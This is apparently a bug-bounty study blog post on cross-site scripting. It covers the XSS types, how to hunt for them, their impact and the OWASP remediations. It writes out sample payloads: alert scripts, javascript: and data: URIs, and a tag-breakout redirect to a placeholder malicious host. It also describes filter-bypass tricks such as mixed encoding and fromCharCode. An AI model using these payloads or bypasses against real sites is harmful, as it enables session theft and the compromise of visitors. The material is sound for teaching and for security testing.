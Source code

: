 ```yaml
---
layout: post
title:  "XSS"
date:   2023-02-19 00:44:28 -0700
categories: jekyll update
---
```

# **XSS - Cross-Site Scripting**

## What is it?

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites.  If an application fails to distinguish between user inpus and the legitimate code that makes up a web page, attackers can inject their own code into pages viewed by others.  Once executed, these scripts can steal cookies, leak PII, change site contents, or redirect the user to a malisious site.

However, it is important to realize that just because code can be injected into a website does not mean it is exploitable, until the code can be executed on a visitor's browser.  This is important to keep in mind for Bug Bounty, as you will need to provide Proof of Concept.

### Stored XSS

Stored XSS happens when user input is stored on a server and retrieved unsafely.  It is the most severe XSS type, with a high potential to attack more users than the other forms of XSS.  This type of payload can be executed without user interaction by simply visiting a site containing a malicious payload, as opposed to others which require the user to click a link or take other actions.<br>

There are different ways to accomplish this: Inject the script into a database, server logs, message board, comment fields.

### Blind XSS

Blind XSS are stored XSS who's input is stored but executed in a part of the application or another application you can't see.  For example, some sites allow you to contact them, and if a payload is delivered without sanitation or validation, it is exploitable.  These are harder as there are no visual cues, but are just as dangerous.

### Reflected XSS

Reflected XSS happens when the user input is returned to the user without being stored.  The app takes input, processes it, then returns it to user.

The key to this vulnerability is to get users to click on a link or interact with a malicious version of what appears as a legitimate site.  For example, if the user clicks on a link where the script is inserted into the address bar, the attacker can then execute anything they wish on the victim's device.

### DOM-Based XSS

DOM is similar to Reflected XSS, except with the DOM the input doesn't leave the browser.  jQuery is prone to DOM XSS since they dynamically alter the DOM.  The same type of link can be sent to the victim, and the difference is that the server is not processing the payload, the browser is.<br>

To find, look for URL fragments that start with # character.  These are usually redirect point that changes the DOM based on input, and can be used for this type of XSS.  Example:
> https://example.com#about_us

### Self-XSS

These are more of a social engineering type of attack than any others.  As such, their relevance in regards to Bug Bounty is questionable, nevertheless they do exist in a similar manner as the others.  The difference with Self-XSS is that the field that is needed to be edited is not accessable to the attacker.  These types of attacks are executed by getting the user to unsuspectingly input the payload into the correct areas, typically by clicking an obscured link either by shortening (bit.ly, etc), or other form of social engineering.

For example, say the site is vulnerable, but only allows access to user accounts that are signed in.  By having a user that is logged into an account, the payload is able to be executed and the victim compromised.

## How do I look for it?

The best way to find flaws is to perform a security review of the code and search for all places where input from an HTTP request could possibly make its way into the HTML output. Note that a variety of different HTML tags can be used to transmit a malicious JavaScript. Nessus, Nikto, and some other available tools can help scan a website for these flaws, but can only scratch the surface. If one part of a website is vulnerable, there is a high likelihood that there are other problems as well.

**Look in places that user input gets rendered on a page.**  While the process will vary for the different types of XSS, the core principle remains the same: check for reflected user input.

Don't limit to text input fields, sometimes other areas such as drop-down menus allow you to insert requests using a proxy.

Look for user input in URL parameters, fragments or pathnames that get displayed to the user.  If you use a custom string, you can search for it throughout the page's source code.

## What is the impact?

The consequence of an XSS attack is the same regardless of whether it is stored or reflected (or DOM Based). The difference is in how the payload arrives at the server. Do not be fooled into thinking that a “read-only” or “brochureware” site is not vulnerable to serious reflected XSS attacks. XSS can cause a variety of problems for the end user that range in severity from an annoyance to complete account compromise. The most severe XSS attacks involve disclosure of the user’s session cookie, allowing an attacker to hijack the user’s session and take over the account. Other damaging attacks include the disclosure of end user files, installation of Trojan horse programs, redirecting the user to some other page or site, or modifying presentation of content. An XSS vulnerability allowing an attacker to modify a press release or news item could affect a company’s stock price or lessen consumer confidence. An XSS vulnerability on a pharmaceutical site could allow an attacker to modify dosage information resulting in an overdose. For more information on these types of attacks see Content_Spoofing.

## How do I exploit it?

The malicious content sent to the web browser often takes the form of a segment of JavaScript, but may also include HTML, Flash, or any other type of code that the browser may execute. The variety of attacks based on XSS is almost limitless, but they commonly include transmitting private data, like cookies or other session information, to the attacker, redirecting the victim to web content controlled by the attacker, or performing other malicious operations on the user’s machine under the guise of the vulnerable site.

The simplest way to test is through an alert box:
><script>alert('My_XSS');</script>

You can also use URL schemes like javascript: and data:.
>javascript:alert('My_XSS')
>data:text/html;<script>alert('My_XSS')</script>
>data:text/html;base64, //insert base64 encoded script here

Going beyond javascript, some HTML attributes are also susceptable, such as onload or onclick.

## What are some obscure use-cases?

You will need to close out the original HTML tag in order to exploit a few potential XSS.<br>
Example:
>"/><script>location="http://malicious.com";</script>
The first 3 characters will close out a tag, completing the request.  Without these, the payload would return an error instead of executing.  You can check for proper execution through your proxy.<br>

You can find a collection of XSS payloads at: https://github.com/payloadbox/xss-payload-list <br>

**Bypassing XSS Protection**
Try different schemes to bypass the safeguards in place.  As mentioned before, you can use HTML tags.  Also, at times <script> itself is sanitized, and would be a good place to try the alternative syntax javascript: or data:.<br>

You can also mix encoding and capitalizations to confuse the XSS filter.  If the application filters special HTML characters like single/double quores, you can't write any XSS payloads directly.  Instead, you can use a Javascript fromCharCode() function, and create ASCII characters to form the string you need.<br>

Look for filter logic errors.  Just because an input is validated and sanitized doesn't mean that it's done correctly. Fuzzing parameters is one of the most effective ways to do this.<br>

Last, make sure you try to escalate the attack.  Proof of Concept is crucial with Bug Bounty, and being able to demonstrate a more severe impact bug will lead to success.

## What tools can I use?

XSS Hunter has been deprecated, but it's main objective was to automate XSS hunting.  As a reliable fork becomes available, I will update this page.<br>

Burp Suite and Fuzzers can help speed the process of seeking XSS.  Polyglot payloads can also work, but be aware that using these could potentially miss exploits due to the generalized nature of such payloads.

## How do I remidiate it?

The primary defenses against XSS are described in the OWASP XSS Prevention Cheat Sheet.

Validating and sanitizing user input to prevent malicious code or characters is one of the most effective ways to mitigate this threat, but ensure that it is done properly and thoroughly.  Even one possible attack vector could lead to a full system compromise, so it is important to be done well.

Also, it’s crucial that you turn off HTTP TRACE support on all web servers. An attacker can steal cookie data via Javascript even when document.cookie is disabled or not supported by the client. This attack is mounted when a user posts a malicious script to a forum so when another user clicks the link, an asynchronous HTTP Trace call is triggered which collects the user’s cookie information from the server, and then sends it over to another malicious server that collects the cookie information so the attacker can mount a session hijack attack. This is easily mitigated by removing support for HTTP TRACE on all web servers.

In addition, session cookies with the HttpOnly flag will not be able to be read by Javascript, which can add another small layer of protection.

The OWASP ESAPI project has produced a set of reusable security components in several languages, including validation and escaping routines to prevent parameter tampering and the injection of XSS attacks. In addition, the OWASP WebGoat Project training application has lessons on Cross-Site Scripting and data encoding.

## Where can I learn more?

https://owasp.org/www-community/attacks/xss/
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet/

